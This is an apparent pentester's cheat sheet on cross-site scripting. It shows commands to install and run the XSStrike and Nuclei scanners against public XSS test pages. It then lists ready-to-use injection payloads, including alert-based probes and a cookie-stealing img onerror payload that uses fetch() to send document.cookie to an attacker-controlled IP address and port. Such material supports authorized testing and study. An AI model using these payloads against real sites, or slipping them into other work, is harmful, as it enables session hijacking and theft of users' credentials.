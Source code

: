 ```yaml
---
description: Cross-site scripting cheat sheet
---
```


# XSS

### Tools

**XSStrike**&#x20;

* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --fuzzer
python3 xsstrike.py -u https://www.codelatte.id/labs/xss/1.php --crawl -l 4
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --file xss.txt
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj6vjZhXx_XMXjyfIXlDcQ3olR_mJFJ9vyJkDZqUOYNnQCzWDGUce_pb9cGm-TB4wN8g2RChnbB9DOY6ktcPmhpdAa2YNp4sdZKLcYpWKy_-WVCJCnAzvLsT4lhmWRRbVWPYQM9GIYEb0vWxgs92zbVWWtZnZerrO9NsErx2te4t_x4rz9pMxvWNXQetrw/s955/xsstrike.png" alt=""><figcaption><p>XSStrike</p></figcaption></figure>

**Nuclei**

{% code overflow="wrap" %}
```bash
nuclei -u "https://brutelogic.com.br/xss.php?a=" -tags xss
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKsc7jaQE8ZSpeD6GKn80EHz74yUCi4kYhDz9cvS3gyxFa42vuwwVRQWWHPdEh6CJ5t_eY2rqml331wuze62eDs7-1DFqkVO8B21XW9z1spp8AfCYyFILb7F2rGlE8JobvylS_qMAYM5ou_Ak9swAkjA1nOf5_Pe8LJV2m4MgOIw-HT4kTOg9TRzsQaBs/s1195/xss%20nuclei.png" alt=""><figcaption><p>Nuclei XSS</p></figcaption></figure>

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

For Cookie Stealing

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
